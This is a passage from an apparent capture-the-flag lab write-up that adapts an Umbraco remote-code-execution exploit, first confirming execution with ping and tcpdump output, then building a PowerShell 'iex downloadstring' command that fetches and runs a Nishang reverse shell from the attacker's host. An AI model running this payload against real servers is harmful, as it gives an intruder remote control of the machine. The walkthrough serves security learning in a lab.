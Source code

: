 

I find with things like this that I have the most luck if I run
`cmd.exe`. So I'll change `proc.StartInfo.FileName = "calc.exe"` to
`proc.StartInfo.FileName = "cmd.exe"`. Just after that, there's
`proc.StartInfo.Arguments = cmd;`. The variable `cmd` is set right at
the beginning, currently to the empty string.

#### Ping POC

As a proof of concept, I'll set `cmd = "/c ping 10.10.14.19"`. On
running, it prints some messages:



    root@kali# python umbraco_rce_ping.py 
    Start
    []
    End



Then there are pings in `tcpdump`:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    16:53:30.589383 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 1, length 40
    16:53:30.589462 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
    16:53:31.604147 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 2, length 40
    16:53:31.604261 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
    16:53:32.619998 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 3, length 40
    16:53:32.620023 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
    16:53:33.634646 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 4, length 40
    16:53:33.634668 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40



#### Shell

I'll update the payload with the PowerShell loader that will download
from my host a [Nishang](https://github.com/samratashok/nishang)
PowerShell reverse shell and run it. The payload will be:



    string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')";



To break that down, the target exe is still `cmd.exe`. It will run with
`/c`, so running the command that follow. PowerShell will start, with
`-c` to issue commands that follow. `iex` (shorthand for
`Invoke-Expression`) will run whatever string comes back from the rest
of the line. The rest of the line will reach out to my host, and
download `shell.ps1` (which is then passed to `iex`).

I'll grab a copy of `Invoke-PowerShellTcp.ps1` (and save it as
`shell.ps1`), and add a line at the bottom to execute the shell:
